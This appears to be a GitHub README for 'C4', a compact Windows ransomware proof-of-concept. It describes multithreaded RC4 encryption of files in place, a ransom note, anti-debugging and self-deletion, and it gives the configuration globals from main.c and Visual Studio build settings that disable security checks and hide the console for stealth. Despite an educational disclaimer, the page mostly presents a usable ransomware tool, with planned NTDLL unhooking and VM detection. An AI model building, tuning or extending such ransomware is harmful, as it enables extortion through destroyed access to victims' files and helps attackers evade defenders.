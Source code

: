 # C4

#### Lightweight Ransomware Simulator

> 🚨 **DISCLAIMER:**  
> This tool is provided **solely** for educational, research, and defensive-security purposes.  
> Do **not** run C4 against any system you do not own or have **explicit** permission to test.  
> Unauthorized or malicious use is **illegal** and the authors disclaim any liability for damages or legal consequences arising from misuse.

[![C4-logo.png](https://i.postimg.cc/xCk6CC7S/C4-logo.png)](https://postimg.cc/cgSRks0D)

C4 is a ransomware proof-of-concept that weaponizes the Rivest Cipher 4 (RC4) to encrypt files in place. Compiled without the C runtime (CRT), its binary size stays under 15KB while retaining functionality like multithreading, anti-analysis, and optional self-deletion.

---

### Features


- Uses RC4 encryption in a recursive, multithreaded fashion to rapidly encrypt or decrypt files.  
- Targets files in a configurable list of directories, while skipping those with blacklisted extensions.  
- Drops a ransom note with custom text once encryption completes.  
- Includes anti-debugging logic to terminate execution if a debugger is detected.  
- Self-deletes the executable after finishing.
- Supports a verbose mode to log every encrypted file and report total runtime.

---

### Usage

```powershell
.\c4.exe
```

No command-line arguments required. C4 will recurse each directory listed in the `g_Directories` global variable, encrypt eligible files, optionally drop a ransom note, then self-delete.

[![c4-demo-2.gif](https://i.postimg.cc/8cS0D1ZH/c4-demo-2.gif)](https://postimg.cc/WF5nwPLF)
---
### Configuration

Before building, you can tune C4's behavior by editing the globals at the top of `main.c`. Here's what to look for:

```c
   ///////////////////
  // CONFIGURATION //
 ///////////////////

TEXT_SECTION BOOL g_EncryptMode         =       TRUE;     // TRUE = Encrypt, FALSE = Decrypt

TEXT_SECTION BOOL g_RansomMode          =       TRUE;     // TRUE = Drop a text file (g_Note) with payment instructions to the current directory

TEXT_SECTION BOOL g_SelfDelete          =       TRUE;     // TRUE = Binary will self-delete

TEXT_SECTION BOOL g_DebuggerEvasion     =       TRUE;     // TRUE = Program exits when debugger (such as x64dbg, OllyDbg, WinDbg) is attached 

TEXT_SECTION BOOL g_Verbose             =       TRUE;     // TRUE = Print files, directories, errors, and execution time to the console


LPCWSTR g_Directories[] = { 
    L"C:\\Users\\Public", 
    NULL
}; 


LPCWSTR g_BlacklistedExtensions[NUM_BLACKLISTED_EXTENSIONS] = {    
    ENCRYPT_EXT_W,
    L".exe", L".dll", L".sys", L".ini", L".conf",
    L".cfg", L".reg", L".dat", L".bat", L".cmd"
};


LPCSTR g_Note = { ""
//    "YOUR FILES HAVE BEEN ENCRYPTED BY C4.EXE\r\n"
//    "This is not a joke. Want your data restored?\r\n"
//    "Send 0.5 BTC to the address below:\r\n"
//   "1MockBTCAddrxxxxxxxxxxxxxxxxxx\r\n"
//    "You have 48 hours.\r\n"
};
```

---

### Build

**Visual Studio**  
1. Open `C4.sln` in Visual Studio  
2. Set **Configuration** to `Release` and **Platform** to `x64`  
3. Go to **Project → Properties** and configure:  
   - **C/C++ → Code Generation → Runtime Library:** Multi-threaded (/MT)  
   - **C/C++ → Code Generation → Enable C++ Exceptions:** No  
   - **C/C++ → Code Generation → Security Check:** Disable Security Check (/GS-)
   - **C/C++ → Code Generation → Basic Runtime Checks:** Default  
   - **C/C++ → General → SDL checks:** No (/sdl-)  
   - **C/C++ → Optimization → Whole Program Optimization:** No  
   - **Linker → Debugging → Generate Debug Info:** No  
   - **Linker → Manifest File → Generate Manifest:** No  
   - **Linker → Input → Ignore All Default Libraries:** Yes (/NODEFAULTLIB)  
   - **Linker → Advanced → Entry Point:** `main`  
   - **Linker → System → Subsystem:** Windows – hides the console for maximum stealth (switch to Console subsystem when using verbose mode)
4. Build the solution.

---

### To-Do

    Add NTDLL unhooking

    Add virtual machine detection
